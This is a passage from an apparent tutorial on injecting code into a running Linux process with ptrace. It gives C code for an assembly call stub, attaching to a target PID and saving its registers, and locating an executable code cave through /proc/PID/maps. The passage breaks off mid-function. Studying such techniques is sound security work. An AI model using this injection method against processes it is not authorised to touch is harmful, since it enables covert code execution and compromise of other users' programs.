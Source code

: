 ```c
//Stub
void injectme(void) { // To do the call and SIGTRAP (int3 for debugging purposes)
    asm(
        "mov $2, %esi\n"
        "call *%rax\n"
        "int $0x03\n"
    );
}
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
First of all we are going to attach to the desired process with ptrace and save the registers at this moment (we do no want to crash our target process, so we need to restore everything to his natural state after our injection):

```c
void infector(pid_t pid) {
    int p_check, waitpidstatus;
    struct user_regs_struct oldregs, regs;
    unsigned long long code_cave_address;
    unsigned char *oldcode; 
    
    p_check = ptrace(PTRACE_ATTACH, pid, NULL, NULL);
    if (p_check < 0) {
        exit(-1);
    }
    if (waitpid(pid, &waitpidstatus, WUNTRACED) != pid) {
        exit(-1);
    }

    // Get a copy of current registers
    p_check = ptrace(PTRACE_GETREGS, pid, NULL, &oldregs);
    if (p_check < 0) {
        exit(-1);
    }

    // Oldregs is our backup, and regs will by a copy to edit
    memcpy(&regs, &oldregs, sizeof(struct user_regs_struct));

```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
We need to locate a region of memory in the remote process where we can put our code stub. To accomplish this mission we can retrieve the address reading /proc/$PID/maps and searching for a r-x region.

```c
// Find a region for our code cave
// Copied from https://github.com/gaffe23/linux-inject/blob/master/utils.c

unsigned long long freespaceaddr(pid_t pid)
{
    FILE *fp;
    char filename[30];
    char line[850];
    unsigned long long addr = NULL;
    char str[20];
    char perms[5];
    sprintf(filename, "/proc/%d/maps", pid);
    fp = fopen(filename, "r");
    if(fp == NULL)
        exit(1);
    while(fgets(line, 850, fp) != NULL)
    {
        sscanf(line, "%lx-%*lx %s %*s %s %*d", &addr, perms, str);

```
